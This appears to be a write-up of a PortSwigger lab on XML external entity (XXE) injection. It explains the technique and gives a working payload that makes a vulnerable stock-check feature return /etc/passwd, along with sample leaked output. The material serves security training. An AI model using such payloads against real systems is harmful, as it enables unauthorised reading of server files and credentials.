 ## Exploiting XXE using external entities to retrieve files

**Title:** Exploiting XXE using external entities to retrieve files. [Go](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

**Description:**
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

## Preface

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
``` XML
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:
``` XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity `&xxe`; whose value is the contents of the `/etc/passwd` file and uses the entity within the `productId` value. This causes the application's response to include the contents of the file:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in `Check stock` functionality.

### My thought

After clicking the "Check stock" button, and intercepting the resulting POST request in Burp Suite we inserted the following external entity definition in between the XML declaration and the `stockCheck` element: `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`. We replaced the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the contents of the `/etc/passwd` file.

![poc_xxe_to_retrive_files.png](../images/xxe_to_retrive_files.png)
